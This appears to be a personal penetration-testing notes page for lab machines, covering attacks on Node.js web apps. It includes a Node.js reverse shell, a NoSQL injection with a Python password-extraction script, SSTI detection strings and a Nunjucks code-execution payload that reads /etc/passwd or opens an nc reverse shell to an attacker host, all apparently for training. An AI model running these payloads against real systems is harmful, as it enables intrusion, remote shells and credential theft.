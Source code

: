 #### Enumeration
Capture url request in BurpSuite:
```
...
/api/users
...
```
Take a look at /api/users
Take the list of users, and a short list of passwords, and attack the login request.
Look for something that would need elevated privilges, like /api/settings.
```
{"color-theme":"light","lang":"en","admin":false}
```
Change admin value to true:
```
{"color-theme":"dark","admin":true}
```
#### Node.js (Express middleware)
Below we're able to test this input box by adding 1 + 1
![[Pasted image 20220304092318.png]]
and seeing the result of "2".
![[Pasted image 20220304092332.png]]
Let's try something more complicated:
```node - kali
(function(){
   return 2+2;
})();
```
![[Pasted image 20220304092443.png]]
and we see this also works
![[Pasted image 20220304092547.png]]
```node - kali
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(21, "$KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
#### NodeBlog
Details on $ne
https://docs.mongodb.com/manual/reference/operator/query/ne/
```
http://10.129.96.160:5000/login
```
Capture in Burp, change Content-Type to json:
```BurpSuite - kali
Content-Type: application/json
```
Change the data body to json format:
```BurpSuite - kali
{"user":"admin","password":"admin"}
```
Send, notice we still get invalid password.  If we modify the username, we get invalid username, working as intended.
```BurpSuite - kali
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```
```bash - kali
mousepad login.py
```
```python - kali
import requests
import json
import string
import sys
def login(pw):
	payload = '{ "$regex":"%s"}' % pw
	data = {"user":"admin", "password": json.loads(payload)}
	r=requests.post("http://10.129.96.160:5000/login",json=data)
	if "Invalid Password" in r.text:
		return False
	return True
password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f"\r{password}{i}")
		if login(f"{password}{i}"):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f"\r{password}\r\n")
				sys.stdout.flush()
				stop=True
				break
			break
```
admin:IppsecSaysPleaseSubscribe
#### Command injection
First, we notice how the our input for the newsletter is reflected back to us.
![[Pasted image 20220218114838.png]]
Test for command injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
![[Pasted image 20220218114825.png]]
Capture in Burp, send to repeater.
#### Node JS command Injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks
POC:
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```
Final payload:
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@htb.us"
}
```
![[1._rlwrap]]
Reverse Shell
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f')\")()}}@htb.us"
}
```
#### package.json
If found, evaluate for vulnerable dependencies.  Maybe this is something we can combine with Dependency-Check?!
```
"request”: "~2",
“saniti%e—htm'l": "1.4.2",
"sequelize": "~4",
```